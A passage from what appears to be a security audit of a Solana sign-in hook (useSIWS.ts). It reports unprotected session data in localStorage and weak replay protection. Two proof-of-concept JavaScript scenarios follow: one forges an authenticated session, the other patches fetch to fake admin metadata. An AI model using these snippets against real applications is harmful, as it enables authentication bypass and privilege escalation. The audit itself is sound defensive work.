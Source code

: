 ### 4. **Session Hijacking via localStorage** 🟠 HIGH
- **Location**: `src/hooks/useSIWS.ts`
- **Severity**: HIGH (CVSS 7.8)
- **Issue**: Sensitive session data in localStorage
- **Evidence**:
```typescript
localStorage.setItem('siws-session', JSON.stringify(sessionData));
// Accessible to any script on the same origin
// No encryption, no integrity protection
```

### 5. **SIWS Signature Replay Attacks** 🟡 MEDIUM
- **Location**: `src/hooks/useSIWS.ts`
- **Severity**: MEDIUM (CVSS 6.5)
- **Issue**: Insufficient nonce validation and message replay protection

## Attack Scenarios

### Scenario 1: Complete Authentication Bypass (Browser DevTools)
```javascript
// Open browser console on the application
// Scenario: Bypass all authentication checks
localStorage.setItem('siws-session', JSON.stringify({
  authenticated: true,
  address: '11111111111111111111111111111111',
  message: 'fake',
  signature: 'fake',
  timestamp: Date.now()
}));

// Trigger state refresh
window.location.reload();
// User is now "authenticated" as any address
```

### Scenario 2: Admin Role Escalation
```javascript
// Manipulate role checking
const originalFetch = window.fetch;
window.fetch = function(url, options) {
  if (url.includes('metadata')) {
    // Return fake admin NFT metadata
    return Promise.resolve({
      json: () => Promise.resolve({
        attributes: [{ trait_type: 'role', value: 'ADMIN' }]
      })
    });
  }
  return originalFetch(url, options);
};
```

